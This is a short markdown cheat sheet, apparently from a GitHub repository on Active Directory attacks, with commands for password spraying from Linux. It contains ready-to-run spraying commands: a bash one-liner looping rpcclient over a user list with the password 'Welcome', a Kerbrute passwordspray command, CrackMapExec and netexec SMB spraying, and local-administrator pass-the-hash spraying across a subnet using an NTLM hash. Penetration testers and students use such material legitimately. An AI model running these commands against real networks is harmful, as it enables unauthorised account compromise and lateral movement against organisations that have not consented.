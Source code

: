# Internal Password Spraying - from Linux
Our creeated list name `valid_users.txt` if you don't have users list yet return back to [Pull User List](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/AD%20Enumeration/NULL%20Sessions.md#null-sessions-to-pull-user-list)
## Using a Bash one-liner for the Attack
We will assume the password we wanna to spray it `Welcome`
```shell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome" -c "getusername;quit" <Target-IP> | grep Authority; done
```
## Using Kerbrute for the Attack
```shell
kerbrute passwordspray -d domain.local --dc <Target-IP> valid_users.txt  Welcome
```
## Using CrackMapExec/netexec & Filtering Logon Failures
```shell
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 | grep +
sudo netexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 | grep +
```
## Local Administrator Password Reuse
Local Admin Spraying with CrackMapExec
```shell
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
